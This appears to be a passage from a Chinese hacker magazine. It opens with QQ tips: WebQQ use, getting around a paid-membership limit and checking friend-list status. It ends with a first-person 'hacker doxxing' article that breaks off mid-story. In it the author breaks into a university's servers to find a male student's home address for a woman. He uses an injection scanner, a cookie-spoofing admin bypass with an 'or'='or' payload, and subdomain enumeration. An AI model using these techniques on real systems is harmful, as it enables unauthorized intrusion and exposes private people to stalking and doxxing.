# 酷玩



图3　查看群消息



图4　WEBQQ的提示



图6　加入好友的消息



图5　添加好友

打开信息对话框后就可以像平常一样聊QQ啦。如果这时候有好友发起邀请，WEBQQ将以特殊的声音和颜色进行提示，如图4。

可以选择是否同意，如果同意则可加对方为好友，如图5。加入好友的消息会放入消息盒子中，不过下次登录的话就会消失了，如图6。

- 2. 发起会话

点击右侧的QQ面板，选择一个在线的好友双击她的头像即可发起会话，如图7。



图7　发起会话

而这时候对方收到的提示会显示消息发送者使用的是WEBQQ。如果要发起群会话，操作也是一样的，选择一个群双击就OK了，如图8。



图8　提示使用的是WEBQQ

怎么样？经过简单的介绍，是不是觉得WEBQQ很有趣呢？还等什么，赶紧叫上你的朋友一起来玩吧！对于在公司里不方便用QQ的朋友应该有帮助哦，用这个是不是可以简单突破公司里的某些限制呢？嘿嘿嘿……

## 免费无限使用隐身可见功能



图1　要求注册为QQ会员

在QQ会员的诸多功能中，有一个比较让笔者称道的功能，那就是隐身可见功能，毕竟有时登录QQ时不想让所有QQ好友看见。免费的QQ用户其实也可以使用这个功能，可是有十个用户的使用限制，也就是说免费用户只能够对十个QQ好友设置隐身可见功能。如果想对更多的QQ好友设置隐身可见，则会提示要求注册为QQ会员，如图1。



图2　切换到TM

其实，此时可以登录到TM即可，如图2。在弹出的TM界面中，选中要设置的QQ好友，然后右键，在弹出的菜单中选中“隐身时对其可见”。

此时等待一会，直到弹出一个“服务器已经接受了您的请求”对话框时，单击“确定”按钮，如图3。



图3　服务器接受请求

现在设置完毕后，即可从TM切换到QQ，再来看设置的QQ好友的图标，左下角已经有了一个小眼睛图标，这就表明我们隐身时是对其可见的。

## 查看自己是否在对方QQ好友中

■十☆白开水

咱长话短说，以前可以用QQ秀查看，但是现在已经不行了，这里告诉大家一个最新的方法。先去登录 http://my.qq.com，或者依次打开QQ的菜单，选择“好友与资料”，进入MYQQ。

登录成功后，在地址栏内输入 http://show.qq.com/cgi-bin/qqshow_noname_info?uin=对方QQ号码&friend=1，把这其中的“对方QQ号码”修改成你要查询的好友号码，回车后页面显示如下：

```xml
<?xml version="1.0" encoding="gb2312" ?>
<QQSHOW code="0" message="" uin="对方QQ号码">
<node uin="0" friend="1" xfriend="1" />
</QQSHOW>
```

如果显示 friend="1" xfriend="1"，那么你在对方的好友中，对方也在你的好友中；

如果显示 friend="1" xfriend="0"，那么很不幸，虽然对方还在你的好友中，而你已经从对方好友中消失了；

如果显示 friend="0" xfriend="1"，说明你还在对方好友中，对方不在你的好友中；

如果显示 friend="0" xfriend="0"，说明你们俩都还不在对方的好友里。

那么哈，大家应该都明白了吧？记得要先登录MYQQ才可以看哦！

首语：

四月有什么节日不？仔细想想，好像一个也没有耶！（跟镜烧：4月1日那个节是……？）今年的经济怎么还没有从金融风暴中复苏过来呢？（跟镜烧：今年还长啊……）工作不好找呀，马上快要毕业的我也正在为工作的事担忧呢……话是这么说，还是沉下心来搞学习吧。学好课本，学好“黑手”……

## 黑客人肉搜索

图　职业色狼

**从本文你可以学到：**
灵活思维的应用

亲爱的黑友们，大家好！今天给大家带来一篇黑客类的人肉搜索。最近总是听网上说人肉搜索很是凶猛，大概了解了一下，“人肉搜索”是一种类比的称呼，主要是用来区别于传统的搜索引擎，它主要是指通过集中许多网民的力量去搜索信息和资源的一种方式。它包括利用互联网的机器搜索引擎（如百度等），及利用各网民在日常生活中所能掌握的信息来进行收集信息的一种方式。

事情是这样的，中午有个MM要我调查一下跟她同一系的男生的家庭住址，而我以前进入过他们学校的服务器，里面有学生的数据，调查过她的资料，呵呵！不过现在这个服务器貌似重新做了系统，mssql、3389也都不能远程连接了，那么只有重新搞进去再进行调查。

拿出啊D来使用，只扫描出了一个注入点，但是猜解不出来，不过找到了后台，如图1。

这种后台记得可以使用cookies欺骗登录。先用webtools打开后台地址，在设置菜单勾选自定义cookies浏览，左下角输入cookies欺骗代码：adminid=1; adminuser=%27or%27%3d%27or%27; adminpass=21232f297a57dfd，然后在地址栏那里直接跳转 http://www.xxxxx.com/admin/admin_index.asp，结果没有成功。难道被改了？扫了一下后台，没有结果，看来被彻底清理过了，如图2a。





既然主站行不通，就从服务器上的分站搞吧。用 www.114best.com 什么也查不出来，打开google，输入 site:xxx.com，查出来很多二级域名。使用刚才的方法进入了一个系的后台，如图3。

四处看了一下，估计用户管理那里被修改掉了，不能上传也不能修改东西，拿了个没用的后台。没办法了，继续挨着检测分站，部分站都大同小异，一般使用的都是这套程序。但当看到计算机系的时候，发现了这是套不同的程序，如图4。令人兴奋的是扫描到一个 file.asp，使用它可以浏览整个计算机系的 web，有个删除选项，但是不起作用，应该是 web 设置了权限规则，如图5。







